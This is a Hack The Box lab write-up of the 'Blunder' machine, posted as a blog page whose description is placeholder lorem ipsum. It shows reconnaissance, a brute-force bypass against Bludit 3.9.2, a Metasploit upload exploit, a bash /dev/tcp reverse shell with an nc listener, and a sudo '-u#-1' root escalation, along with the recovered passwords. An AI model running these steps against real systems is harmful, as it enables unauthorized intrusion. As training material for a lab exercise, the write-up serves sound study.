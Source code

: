 ```yaml
---
title: Blunder - Hack The Box
author: "0xPThree"
description: "Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."
date: 2020-06-04
image: images/blunder_logo.png
categories: [hackthebox, ]
format: html
editor: visual
jupyter: python3
toc: true
---
```


![](images/blunder_logo.png)

"Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."

----------------

   ██╗   ██╗███████╗███████╗██████╗
   ██║   ██║██╔════╝██╔════╝██╔══██╗
   ██║   ██║███████╗█████╗  ██████╔╝
   ██║   ██║╚════██║██╔══╝  ██╔══██╗
   ╚██████╔╝███████║███████╗██║  ██║
    ╚═════╝ ╚══════╝╚══════╝╚═╝  ╚═╝


1. root@nidus:/git/htb/cache# nmap -Pn -sC -sV -n 10.10.10.191
    PORT   STATE  SERVICE VERSION
      21/tcp closed ftp
      80/tcp open   http    Apache httpd 2.4.41 ((Ubuntu))
      |_http-generator: Blunder
      |_http-server-header: Apache/2.4.41 (Ubuntu)
      |_http-title: Blunder | A blunder of interesting facts

    DIRB:
      + http://10.10.10.191/0 (CODE:200|SIZE:7562)
      + http://10.10.10.191/about (CODE:200|SIZE:3281)
      ==> DIRECTORY: http://10.10.10.191/admin/
      + http://10.10.10.191/cgi-bin/ (CODE:301|SIZE:0)
      + http://10.10.10.191/LICENSE (CODE:200|SIZE:1083)
      + http://10.10.10.191/robots.txt (CODE:200|SIZE:22)
      + http://10.10.10.191/server-status (CODE:403|SIZE:277)

    NIKTO:
      + "robots.txt" contains 1 entry which should be manually viewed.

    FFUF dirb/common.txt (.php, .html, .txt):
      install.php        [Status: 200, Size: 30, Words: 5, Lines: 1]
      robots.txt         [Status: 200, Size: 22, Words: 3, Lines: 2]
      todo.txt           [Status: 200, Size: 118, Words: 20, Lines: 5]

2. Looking at the webpage we find nothing really of use. Dirb gives us a login under /admin, however we don't have any creds.
   install.php only says that Bludit is already installed
   robots.txt hows nothing
   todo.txt however gives us something;

    -Update the CMS
    -Turn off FTP - DONE
    -Remove old users - DONE
    -Inform fergus that the new blog needs images - PENDING

  My conclusion from this - CMS is old version, and there are probably a user named fergus.


3. Looking through the source code of the webpage we find that the software version is 3.9.2.

    <!-- Include Bootstrap CSS file bootstrap.css -->
    <link rel="stylesheet" type="text/css" href="http://10.10.10.191/bl-kernel/css/bootstrap.min.css?version=3.9.2">

  Looking for vulnerabilities in Bludit 3.9.2 we find a page and a script to bypass brute force protection.
  https://medium.com/@musyokaian/bludit-cms-version-3-9-2-brute-force-protection-bypass-283f39a84bbb

  Enter found username (fergus), along with the url and standard wordlist rockyou.txt - no dice. We're missing something here
  the password doesn't seem the be a default from rockyou.txt.

  Using cewl we can try to create our own, custom, wordlist.
    root@nidus:/git/htb/blunder# cewl -w blunder-wl.txt -d 4 -m 5 http://10.10.10.191
    root@nidus:/git/htb/blunder# cat brute.py
      #!/usr/bin/env python3
      import re
      import requests

      host = "http://10.10.10.191" # change to the appropriate URL

      login_url = host + '/admin/'
      username = 'fergus' # Change to the appropriate username
      fname = "blunder-wl.txt" #change this to the appropriate file you can specify the full path to the file
      ..

    root@nidus:/git/htb/blunder# python3 brute.py
      ..
      [*] Trying: RolandDeschain

      SUCCESS: Password found!
      Use fergus:RolandDeschain to login.


  4. We are now able to access /admin. Continue to enumerate for Bludit 3.9.2 vulns and we find a Code Execution vuln in the
     upload function.

     https://github.com/bludit/bludit/issues/1081
     I tried to get this exploit to work manually, however I wasn't able to. So instead I went to the msf module
     'linux/http/bludit_upload_images_exec' that gave a reverse meterpreter shell right away.

     msf5 exploit(linux/http/bludit_upload_images_exec) > options

      Module options (exploit/linux/http/bludit_upload_images_exec):

         Name        Current Setting      Required  Description
         ----        ---------------      --------  -----------
         BLUDITPASS  RolandDeschain       yes       The password for Bludit
         BLUDITUSER  fergus               yes       The username for Bludit
         Proxies                          no        A proxy chain of format type:host:port[,type:host:port][...]
         RHOSTS      10.10.10.191         yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
         RPORT       80                   yes       The target port (TCP)
         SSL         false                no        Negotiate SSL/TLS for outgoing connections
         TARGETURI   /                    yes       The base path for Bludit
         VHOST                            no        HTTP server virtual host

     msf5 exploit(linux/http/bludit_upload_images_exec) > run

       [*] Started reverse TCP handler on 10.10.14.17:4488
       [+] Logged in as: fergus
       [*] Retrieving UUID...
       [*] Uploading umtMhoBAyo.png...
       [*] Uploading .htaccess...
       [*] Executing umtMhoBAyo.png...
       [*] Sending stage (38288 bytes) to 10.10.10.191
       [*] Meterpreter session 1 opened (10.10.14.17:4488 -> 10.10.10.191:53692) at 2020-06-04 17:53:55 +0200
       [+] Deleted .htaccess

       meterpreter > shell
        Process 4654 created.
        Channel 1 created.
        whoami
        www-data


5. Looking around in the box we find 2 hashed passwords in /var/www/bludit-3.9.2/bl-content/databases, however we are unable to
   crack them. Enumerating further we find their new, updated version bludit 3.10 directory. Browsing to the database dir we find
   a new user hash.

   pwd
    /var/www/bludit-3.10.0a/bl-content/databases
   cat users.php
    <?php defined('BLUDIT') or die('Bludit CMS.'); ?>
    {
        "admin": {
            "nickname": "Hugo",
            "firstName": "Hugo",
            "lastName": "",
            "role": "User",
            "password": "faca404fd5c0a31cf1897b823c695c85cffeb98d",

     rockyou.txt doesn't contain the password, so using crackstation.net solved it for us - Password120

     su hugo
      Password: Password120
     whoami
      hugo
     cat /home/hugo/user.txt
      7648136cd484168abf3ba60f6687fe65


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██████╗  ██████╗  ██████╗ ████████╗
   ██╔══██╗██╔═══██╗██╔═══██╗╚══██╔══╝
   ██████╔╝██║   ██║██║   ██║   ██║
   ██╔══██╗██║   ██║██║   ██║   ██║
   ██║  ██║╚██████╔╝╚██████╔╝   ██║
   ╚═╝  ╚═╝ ╚═════╝  ╚═════╝    ╚═╝


1. The reverse meterpreter shell won't allow us to execute 'sudo -l', so start by creating a new reverse shell - and upgrade it.

    bash -i >& /dev/tcp/10.10.14.17/4488 0>&1
    root@nidus:/git/htb/blunder# nc -lvnp 4488
      listening on [any] 4488 ...
      connect to [10.10.14.17] from (UNKNOWN) [10.10.10.191] 54502
      bash: cannot set terminal process group (1093): Inappropriate ioctl for device
      bash: no job control in this shell
      hugo@blunder:/var/www/bludit-3.10.0a/bl-content/databases$


    hugo@blunder:/var/www/bludit-3.10.0a/bl-content/databases$ sudo -l
      Password:
      Matching Defaults entries for hugo on blunder:
          env_reset, mail_badpass,
          secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

      User hugo may run the following commands on blunder:
          (ALL, !root) /bin/bash


2. A quick google on '(ALL, !root) /bin/bash' shows us that we can escalate privs using 'sudo -u#-1 /bin/bash'

    hugo@blunder:/var/www/bludit-3.10.0a/bl-content/databases$ sudo -u#-1 /bin/bash
    root@blunder:/var/www/bludit-3.10.0a/bl-content/databases# whoami
      root
    root@blunder:/var/www/bludit-3.10.0a/bl-content/databases# cat /root/root.txt
      4f812395afcaa35870cc99487a7ef108




██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██╗███╗   ██╗███████╗ ██████╗ ██████╗ ███╗   ███╗ █████╗ ████████╗██╗ ██████╗ ███╗   ██╗
   ██║████╗  ██║██╔════╝██╔═══██╗██╔══██╗████╗ ████║██╔══██╗╚══██╔══╝██║██╔═══██╗████╗  ██║
   ██║██╔██╗ ██║█████╗  ██║   ██║██████╔╝██╔████╔██║███████║   ██║   ██║██║   ██║██╔██╗ ██║
   ██║██║╚██╗██║██╔══╝  ██║   ██║██╔══██╗██║╚██╔╝██║██╔══██║   ██║   ██║██║   ██║██║╚██╗██║
   ██║██║ ╚████║██║     ╚██████╔╝██║  ██║██║ ╚═╝ ██║██║  ██║   ██║   ██║╚██████╔╝██║ ╚████║
   ╚═╝╚═╝  ╚═══╝╚═╝      ╚═════╝ ╚═╝  ╚═╝╚═╝     ╚═╝╚═╝  ╚═╝   ╚═╝   ╚═╝ ╚═════╝ ╚═╝  ╚═══╝
